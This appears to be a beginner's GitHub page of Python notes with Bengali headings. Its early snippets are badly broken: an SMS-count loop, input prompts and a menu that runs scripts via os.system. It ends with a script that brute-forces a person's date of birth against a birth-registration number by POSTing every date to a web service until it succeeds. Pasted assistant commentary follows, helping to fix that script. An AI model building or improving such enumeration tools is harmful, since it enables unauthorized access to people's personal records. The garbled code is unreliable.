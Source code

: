 # Python-lerne


##  যে কোনো স্থানে কোনো কিছু টাইপ করে নেওয়া।

nid=str(input(" what is the number :-- ")

dob=int(input(" what is the day:-) 







## কত গুলো sms সেন্ট করতে পারবো।


10=str(input(" WHAT is the amaunt")

2 টাই ব্যাবহার করতে পারব।

for i range (10) or

printe(str(i+1)+"Sent SmS")

## tool oftion add

import os

while True:

	os.system("clear") 
 
	print(" [1] frist tool \n [2] secant tool \n [3] thert tool")
 
	opt=str(input("what is the selet no:-- "))
	
if opt=="1":
	os.system("python3 1.py")
	
elif opt==2:
	os.system("python3 2.py")
	
elif opt==3:
	os.system("python3 3.py")
 
else:

print("[x] wrong valo inter")
  

## typing kote thakbr



# Iterating through possible date combinations
for year in range(start_year, end_year + 1):  # Using user input for year range
    for month in range(1, 13):  # Months 1-12
        for day in range(1, 32):  # Days 1-31 (handling invalid dates later)
            try:
                dob = f"{year:04d}-{month:02d}-{day:02d}"  # Formatting DOB
                payload = {"ubrn": ubrn, "dob": dob}

                response = requests.post(url, data=json.dumps(payload), headers=headers)
                response_data = response.json()

                response_code = response_data.get("responseCode")
                print(f"Trying DOB: {dob} -> Response Code: {response_code}")

                if response_code == 0:  # If response code is 0, stop execution
                    print("Response code is 0, stopping execution.")
                    exit()

                if response_code == "SUCCESS":  # Adjust based on actual success response
                    print(f"Valid DOB found: {dob}")
                    exit()  # Stop execution if a valid DOB is found

            except Exception as e:
                print(f"Error with DOB {dob}: {e}")
Improvements & Fixes:
Proper Indentation

Fixed incorrect indentation under except, avoiding syntax errors.
Stopping Execution on Response Code 0

If responseCode == 0, the script prints a message and stops immediately.
Stops on Successful DOB Match

If responseCode == "SUCCESS", execution stops.
Would you like to add date validation (e.g., handling February 30, leap years)?








